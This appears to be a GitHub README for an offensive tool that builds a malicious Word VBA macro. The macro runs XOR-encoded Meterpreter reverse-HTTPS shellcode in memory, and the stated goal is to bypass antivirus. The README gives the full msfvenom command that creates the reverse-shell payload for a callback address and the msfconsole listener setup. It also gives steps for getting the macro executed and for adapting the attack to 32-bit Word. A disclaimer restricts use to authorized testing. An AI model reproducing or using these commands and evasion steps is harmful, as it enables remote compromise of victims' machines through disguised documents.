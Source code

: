 # VBA Payload Encryption and Execution

## Overview
This project demonstrates how to encrypt a shellcode (revshell) payload for execution within a Microsoft Word VBA macro. The encryption process enhances evasion techniques to **_<u>bypass AV</u>_** by encoding the payload before execution.

## Steps
### 1. Generate the Shellcode
Use `msfvenom` to generate a reverse HTTPS payload in C# format:
```sh
msfvenom -p windows/x64/meterpreter/reverse_https LHOST=192.168.1.142 LPORT=443 EXITFUNC=thread -f csharp
```

### 2. Encrypt the Payload
- Use the provided C# encryption script (`XOR_encoder`) to XOR the shellcode with a static key (`0xFA`).
- The python3 script will do the same.

### 3. Embed the Encrypted Payload in VBA Macro
- Open Microsoft Word and access the VBA Editor (`ALT + F11`)
- Insert a new module and paste the `VBA_Macro_Shellcode_Execution` file content

### 4. Setup Metasploit Listener
Start Metasploit and configure the multi-handler:
```sh
sudo msfconsole -q -x "use exploit/multi/handler; set PAYLOAD windows/x64/meterpreter/reverse_https; set LHOST 192.168.1.142; set LPORT 443; exploit"
```

### 5. Execute the VBA Macro
- Open the Word document containing the macro
- Enable macros when prompted
- The encoded payload is decoded and executed in memory

![Captura de pantalla 2025-03-11 a la(s) 16 27 16](https://github.com/user-attachments/assets/368db687-88f2-47ce-ba49-eb61860841b0)


### 6. Compatibility Note
If Microsoft Word is running in 32-bit, the payload and handler must be adjusted for x86 compatibility by replacing `windows/x64/meterpreter/reverse_https` with `windows/meterpreter/reverse_https` in both the shellcode generation with msfvenom and the listener configuration in Metasploit.

A useful hint is to check whether Microsoft Word on the DEV or TEST machine is running in 64-bit or 32-bit mode. 

## Disclaimer
This project is intended for educational and authorized penetration testing purposes only. Unauthorized use is strictly prohibited.

